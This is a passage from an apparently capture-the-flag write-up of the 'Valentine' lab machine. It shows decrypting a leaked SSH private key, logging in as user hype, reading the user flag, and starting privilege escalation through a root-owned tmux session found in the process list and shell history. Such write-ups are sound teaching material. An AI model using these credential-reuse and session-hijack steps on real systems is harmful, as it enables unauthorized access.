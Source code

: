     
    
    root@kali# openssl rsa -in hype_key_encrypted -out hype_key_decrypted
    Enter pass phrase for hype_key_encrypted:
    writing RSA key
    

## SSH Access

With the decrypted key, ssh in as `hype`, given the file name:

    
    
    root@kali# ssh -i ~/hype_key_decrypted hype@10.10.10.79
    Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com/
    
    New release '14.04.5 LTS' available.
    Run 'do-release-upgrade' to upgrade to it.
    
    Last login: Fri Feb 16 14:16:34 2018 from 10.10.14.3
    hype@Valentine:~$ pwd
    /home/hype
    

This banner confirms the OS identification from nmap as Ubuntu 12.04.

Now we can grab user.txt:

    
    
    hype@Valentine:~$ find . -name user.txt -exec wc -c {} \; -exec cat {} \;
    33 ./Desktop/user.txt
    e6710a54...
    

## Privesc

There’s two clear paths to root here. Despite the fact that it’s been quite
obvious that this is an older kernel, we’ll start with the more elegant one,
since kernel exploits should be a last resort.

### Privesc 1: tmux Running as root

We see signed of tmux in a few places.

Process list, running as root:

    
    
    hype@Valentine:~$ ps -ef | grep tmux
    root       1022      1  0 Jul25 ?        00:00:54 /usr/bin/tmux -S /.devs/dev_sess
    

bash history:

    
    
    hype@Valentine:~$ history
        1  exit
        2  exot
        3  exit
        4  ls -la
        5  cd /
        6  ls -la
        7  cd .devs
        8  ls -la
        9  tmux -L dev_sess
       10  tmux a -t dev_sess
       11  tmux --help
       12  tmux -S /.devs/dev_sess
       13  exit
       14  tmux ls
       15  ps -ef